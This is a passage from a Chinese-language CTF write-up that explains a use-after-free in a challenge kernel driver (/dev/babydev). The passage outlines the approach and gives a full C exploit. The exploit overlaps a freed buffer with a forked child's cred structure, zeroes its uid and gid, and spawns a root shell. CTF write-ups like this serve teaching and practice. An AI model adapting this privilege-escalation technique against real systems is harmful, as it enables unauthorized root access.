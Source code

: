 
那么根据 UAF 的思想，思路如下：

1. 打开两次设备，通过 ioctl 更改其大小为 cred 结构体的大小
2. 释放其中一个，fork 一个新进程，那么这个新进程的 cred 的空间就会和之前释放的空间重叠
3. 同时，我们可以通过另一个文件描述符对这块空间写，只需要将 uid，gid 改为 0，即可以实现提权到 root

需要确定 cred 结构体的大小，有了源码，大小就很好确定了。计算一下是 0x8a（注意使用相同内核版本的源码）。

### EXP

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
	// 打开两次设备
	int fd1 = open("/dev/babydev", 2);
	int fd2 = open("/dev/babydev", 2);

	// 修改 babydev_struct.device_buf_len 为 sizeof(struct cred)
	ioctl(fd1, 0x10001, 0x8a);

	// 释放 fd1
	close(fd1);

	// 新起进程的 cred 空间会和刚刚释放的 babydev_struct 重叠
	int pid = fork();
	if(pid < 0)
	{
		puts("[*] fork error!");
		exit(0);
	}

	else if(pid == 0)
	{
		// 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
		char zeros[30] = {0};
		write(fd2, zeros, 28);

		if(getuid() == 0)
		{
			puts("[+] root now.");
			system("/bin/sh");
			exit(0);
		}
	}
	
	else
	{
		wait(NULL);
	}
	close(fd2);

	return 0;
}
```
